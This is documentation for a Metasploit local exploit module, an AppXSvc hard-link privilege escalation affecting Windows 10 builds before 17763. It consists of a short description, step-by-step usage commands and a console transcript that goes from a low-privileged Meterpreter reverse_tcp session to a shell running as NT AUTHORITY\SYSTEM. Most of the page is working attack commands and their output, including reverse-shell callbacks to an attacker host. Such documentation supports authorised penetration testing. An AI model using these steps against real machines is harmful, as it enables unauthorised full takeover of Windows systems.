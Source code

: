 ## Description

  There exists a privilege escalation vulnerability for Windows 10 builds prior to build 17763.
  Due to the AppXSvc's improper handling of hard links, a user can gain full privileges over
  a SYSTEM-owned file. The user can then utilize the new file to execute code as SYSTEM.

  This module leverages a technique discovered by James Forshaw to enable loading and execution
  of a dll with SYSTEM privileges.

## Vulnerable Application

  Windows 10 builds prior to 17763. Windows 10 is available for download [here](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/).

## Verification Steps

  1. Start msfconsole
  2. Get a low-privileged session
  3. Do: ```use exploit/windows/local/appxsvc_hard_link_privesc```
  4. Do: ```set SESSION <session>```
  5. Do: ```set PAYLOAD <payload>```
  6. Do: ```set LHOST <ip>```
  7. Do: ```run```
  8. You should get a shell running as SYSTEM

## Scenarios

### Tested on Windows 10 Version 1709 Build 16299.125

  ```
  msf5 > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (206403 bytes) to 192.168.37.135
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.135:49985) at 2019-07-08 12:01:09 -0500

  meterpreter > getuid
  Server username: DESKTOP-L5FDSM7\Shelby Pace
  meterpreter > background
  [*] Backgrounding session 1...
  msf5 exploit(multi/handler) > use exploit/windows/local/appxsvc_hard_link_privesc
  msf5 exploit(windows/local/appxsvc_hard_link_privesc) > set session 1
  session => 1
  msf5 exploit(windows/local/appxsvc_hard_link_privesc) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(windows/local/appxsvc_hard_link_privesc) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/local/appxsvc_hard_link_privesc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 192.168.37.1:4444
  [+] Successfully created hard link
  [*] Attempting to launch Microsoft Edge minimized.
  [*] Writing the payload to disk
  [*] Sending stage (206403 bytes) to 192.168.37.135
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.135:49986) at 2019-07-08 12:02:02 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-L5FDSM7
  OS              : Windows 10 (Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
